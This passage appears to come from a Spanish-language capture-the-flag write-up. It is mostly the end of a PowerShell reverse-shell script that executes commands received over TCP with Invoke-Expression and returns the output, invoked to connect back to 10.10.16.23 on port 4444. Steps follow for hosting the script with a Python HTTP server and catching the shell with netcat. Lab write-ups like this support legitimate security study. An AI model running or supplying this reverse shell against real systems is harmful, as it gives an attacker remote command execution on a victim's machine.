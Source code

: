 ```
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.23 -Port 4444
```

En el `mismo directorio` donde se `encuentra` el `binario` nos montamos un `servidor http` con `python`

```
# python -m http.server 80
```

Nos ponemos en `escucha` con `netcat`

```
# nc -nlvp 4444
```
